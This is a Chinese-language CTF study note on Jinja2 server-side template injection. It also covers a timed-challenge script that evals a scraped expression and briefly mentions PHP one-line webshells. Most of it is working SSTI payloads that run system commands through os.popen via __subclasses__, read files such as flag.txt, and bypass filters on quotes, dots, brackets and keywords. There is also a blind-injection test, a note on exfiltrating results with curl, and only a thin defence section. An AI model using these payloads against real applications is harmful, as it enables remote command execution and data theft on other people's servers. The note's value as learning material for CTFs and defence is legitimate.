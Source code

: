 # SSTI and 杂项

python脚本练习：https://fdujwc.cn/befast/

一秒发送计算（秋名山车神）

```python
import requests
import re
url = 'https://fdujwc.cn/befast/'
s = requests.Session()
source = s.get(url)
expression = re.search(r'(\d+[+\-*])+(\d+)', source.text).group()
result = eval(expression)
post = {'value':result}
print(s.post(url,data=post).text)
```

### 一句话木马的基础补充：

https://blog.csdn.net/weixin_39190897/article/details/86772765

一句话木马（**简称Webshell**）

例题就是极客：


密码是attack

这句话什么意思呢？

（1）php的代码要写在<?php ?>里面，服务器才能认出来这是php代码，然后才去解析。
（2）@符号的意思是不报错，即使执行错误，也不报错。

### SSTI jinja2模板学习

flask自带

模板仅仅是文本文件。它可以生成任何基于文本的格式（HTML、XML、CSV、LaTex 等等）。 它并没有特定的扩展名， .html 或 .xml 都是可以的。

瞎写的python以用于学习：

```python
from flask import Flask, escape, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return 'index'

@app.route('/login')
@app.route('/login/<name>')
def login(name = None):
    return render_template('hi.html',name=name)

```

```html
#hi.html
<!doctype html>
<html>
<title>Hello from Flask</title>
{% if name %}
  <h1>Hello {{ name }}!</h1>
{% else %}
  <h1>Hello, World!</h1>
{% endif %}
</html>
```

### ssti 任意命令执行：

```python
{{"".__class__.__mro__.__getitem__(1).__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}

{{"".__class__.__mro__[1].__subclasses__()[300].__init__.__globals__["os"]["popen"]("whoami").read()}}
```

```pyyhon
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()}}
#文件读取
__builtins__以调动函数
```

```
"".__class__
```

通过**bases**或者**mro**来获取到object基类

这里怎么在网页上找到相应的类？fuzz即可

```
"".__class__.__mro__[1]
```

```python
"".__class__.__mro__[1].__subclasses__()
#子类
for i in enumerate(''.__class__.__mro__[1].__subclasses__()): print (i)
#寻找子类


{{"".__class__.__mro__[1].__subclasses__()[118].__init__.__globals__}}
init 初始化 globals 全局

["os"]["popen"]("whoami").read()
```

os.popen("")调用系统命令，可以实现一个“管道”

read()从地址读取回显

### BYPASS技巧

引号：

用元组，列表等引出基类，开头去除""为[]or()

使用request.args导入字符（这种方法没法在我写的html复现， 因为没法传参）

小括号：

一旦被过滤，无法执行函数，但是可以玩玩{{config}}这样的小玩意儿

目前貌似没有不用小括号传参的方法

关键字：

1、同引号：request.args

```python
2、"__cl"+"ass __"
3、base64 or utf-8 decode 
#倒序[::1]
chr()
```

点号：

```
"".__class__等价于""["__class__"]
```

如果被阉割了模块，可以

```python
reload（__builtins__）
```

getitem取用元素，从而绕过[]

过滤{{}}：

可以试试{%%}

### 盲注

```python
{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__.__builtins__['open']('d://flask/flag.txt').read()[0:1] == 'A'}} //true

```

利用curl将执行结果带出来

脚本还不会写，盲注的方法还不太懂。下一次研究再尝试写出脚本



**getattr()** 函数用于返回一个对象属性值。

```
getattr(getattr((),'__bases__'),"__class__")
```

配合base64， chr等食用效果更佳。字符串总是能玩出许多花样的



### 防御

禁用()

多赋值几次：

get传参给user user又套模板什么的